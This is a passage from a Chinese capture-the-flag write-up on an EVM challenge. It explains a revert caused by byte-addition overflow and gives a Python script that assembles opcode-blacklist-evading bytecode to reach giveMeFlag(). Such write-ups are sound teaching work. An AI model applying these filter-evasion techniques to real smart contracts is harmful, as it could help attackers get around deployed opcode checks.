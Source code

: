 ```
```

此时加起来的效果如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0131b8a7ca67626484.png)

但是如果真正将该代码放入到 `giveMeFlag()` 函数中的时候，却会提示该代码会 `revert` ，经过 `debug` 可以发现最后运行到了 `uint8 q = uint8(a[i]) + uint8(b[i]);` 语句然后进入到了 `panic_error_0x11()` 并 `revert` ，此时的 `a[i]` 和 `b[i]` 都为 `0xf3` ，所以猜测可能是整数溢出导致了这个 `revert` 。

那么该如何更改代码呢？我们可以把尾部的 `0xf3` 改为一个较小的值来错位防止加法溢出，例如改成 `03(SUB)` ，然后继续添加代码来进行下一步的修复，最后合并即可：

```
blacklist = [0x3B,0x3C,0x3F,0x54,0x55,0xF0,0xF1,0xF2,0xF4,0xF5,0xFA,0xFF]

def check(data):
    for d in data:
        if d in blacklist:
            return False
    return True

def reverse(data):
    return bytes.fromhex(data)[::-1].hex()

def combine(x,y):
    x = bytes.fromhex(x)
    y = bytes.fromhex(y)
    result = [(a + b) for a,b in zip(x,y)]
    return bytes(result).hex()

data = ""
data += "30" # ADDRESS
data += "6001" # push 01
data += "6000" # push 00
data += "52" # mstore[0:0x20] = 1
data += "6020" # push 20
data += "6000" # push 00
data += "f3" # return 

data += "00" # padding
data += "6000" # push 00

data += "6003" # push 03
data += "6000" # push 00
data += "52" # mstore[0:0x20] = 3
data += "6020" # push 20
data += "6000" # push 00
data += "f3" # return 

data += "00" * 10 # padding

data += "f3" # return 
data += "0060" # push 00
data += "03" # sub
data += "4060" # push 40
data += "2060" # push 20
data += "52" # mstore[0:0x20] = 2
data += "0060" # push 00
data += "0260" # push 02
data += "3a" # GASPRICE

if check(data):
    print(data)
```